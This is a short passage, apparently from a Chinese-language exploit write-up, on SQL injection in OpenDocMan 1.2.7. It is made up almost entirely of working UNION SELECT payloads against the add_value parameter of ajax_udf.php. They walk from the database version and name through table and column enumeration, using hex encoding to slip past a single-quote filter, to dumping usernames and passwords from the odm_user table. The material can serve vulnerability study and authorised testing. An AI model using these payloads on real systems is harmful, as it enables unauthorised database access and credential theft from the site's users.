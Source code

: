```plain
searchsploit OpenDocMan 1.2.7

//payload
http://[host]/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,version%28%29,3,4,5,6,7,8,9
```

[![](assets/1704158282-23ff91f5b4858131e3d5c134dc03a3f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231229010436-2e499c30-a5a3-1.png)

<2> 住的注意的是，后端做了过滤单引号，可以使用十六进制编码表示表名

```plain
<1> 库名
?q=1&add_value=odm_user%20UNION%20SELECT%201,database(),3,4,5,6,7,8,9

<2> 表名
?q=1&add_value=odm_user%20UNION%20SELECT%201,group_concat(table_name),3,4,5,6,7,8,9 from information_schema.tables where table_schema=database()

<3> 列名（后端做了过滤，可以用16进制编码表示表名）
?q=1&add_value=odm_user%20UNION%20SELECT%201,group_concat(column_name),3,4,5,6,7,8,9 from information_schema.columns where table_name=0x6f646d5f75736572 and table_schema=database()

<4> 数据
?q=1&add_value=odm_user%20UNION%20SELECT%201,group_concat(concat(username,0x5e,password)),3,4,5,6,7,8,9 from odm_user
```
